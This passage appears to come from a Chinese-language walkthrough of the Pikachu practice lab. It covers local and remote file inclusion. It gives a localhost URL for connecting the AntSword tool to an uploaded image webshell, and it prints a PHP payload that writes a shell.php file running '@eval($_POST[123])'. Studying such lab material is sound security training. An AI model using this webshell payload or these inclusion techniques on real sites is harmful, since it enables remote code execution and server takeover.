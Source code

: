 <br>

使用蚁剑连接webshell, 连接url地址为:`http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/ImgTrjs.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`, 连接密码为`123`

<img src="pikachu靶场/动画-16696367480627.gif" alt="动画" style="zoom:67%;" />		

<br>

## 远程文件包含

### 原理

能通过url地址对远程的文件进行包含, 这也意味着攻击者可以传入任意的代码

与此同时远程包含漏洞还能包含本地文件的绝对路径或相对路径

<br>

### 远程生成Webshell

首先生成一个文本文件部署在服务器上, 这里为了方便测试, 我选择放在phpstudy的根目录下, 文件内容为`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[123]);?>');?>`, 文件的url地址为`http://127.0.0.1/GenerateWebshell.txt`

